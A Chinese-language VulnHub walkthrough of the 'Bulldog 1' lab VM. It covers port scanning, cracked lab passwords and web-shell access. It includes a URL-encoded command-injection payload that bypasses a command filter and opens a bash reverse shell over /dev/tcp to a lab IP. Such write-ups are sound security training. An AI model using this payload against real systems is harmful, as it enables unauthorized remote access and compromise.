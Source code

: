 +++
ShowToc = true
TocOpen = true
title = '0x020 Bulldog 1 '
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



开机改网卡

# 端口扫描

![](/vulnhub_img/WEBRESOURCEb1af1bfc04642d04a8b1255a7ea5659c截图.png)

![](/vulnhub_img/WEBRESOURCE75ec00e2e54007ea720d139649796fcb截图.png)

# WEB渗透

8080和80端口一样的

![](/vulnhub_img/WEBRESOURCEd72212dbd9082666b98fc4bcb6e0b4b7截图.png)

发现隐藏信息，疑似账号密码：

![](/vulnhub_img/WEBRESOURCE8ad0d9336fe075a36686c5a354658e3a截图.png)

hashcat跑半天，破解hash还是建议使用在线的：

![](/vulnhub_img/WEBRESOURCE562c0da80a75385e3bbb3d23bed601b8截图.png)

破解出的密码如下：

[nick@bulldogindustries.com](http://nick@bulldogindustries.com)

bulldog

sarah@bulldogindustries.com

bulldoglover

登录后，成功进去webhell

![](/vulnhub_img/WEBRESOURCEe7be29680457b2caa0f774bf4c6e33eb截图.png)

阻止危险shell，那我想的就是绕过了：

![](/vulnhub_img/WEBRESOURCEfe337efad31bbc4536cbdf3a0992fd37截图.png)

记得url编码：

ls|%62%61%73%68%20%2d%63%20%27%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%30%2e%31%32%38%2f%38%38%38%38%20%30%3e%26%31%27

![](/vulnhub_img/WEBRESOURCE35e0246221e6ebaeff9170af631b425b截图.png)

# 提权

![](/vulnhub_img/WEBRESOURCE43f2f829706792a67ebeda8cd680cfef截图.png)

没什么好说的，前面靶场遇到过的：

![](/vulnhub_img/WEBRESOURCE158237df7ed2eb7c97cfdc7558d8355f截图.png)